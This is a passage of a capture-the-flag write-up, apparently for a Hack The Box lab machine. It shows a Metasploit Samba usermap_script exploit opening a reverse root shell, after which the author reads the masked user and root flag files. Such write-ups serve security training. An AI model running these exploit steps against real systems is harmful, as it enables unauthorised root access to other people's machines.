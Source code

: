 ```bash
msf6 exploit(multi/samba/usermap_script) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.16.2:4444
[*] Command shell session 1 opened (10.10.16.2:4444 -> 10.10.10.3:35844 ) at 2022-03-24 21:41:22 +1300


id
uid=0(root) gid=0(root)
pwd
/
```

We've got a root shell to the target!

User and Root flags for the taking:

```bash
# root.txt

ls /root
Desktop
reset_logs.sh
root.txt
vnc.log
cat /root/root.txt
************************

# user.txt

ls /home
ftp
makis
service
user
find /home -name user.txt
/home/makis/user.txt
cat /home/makis/user.txt
************************
```

Game over.

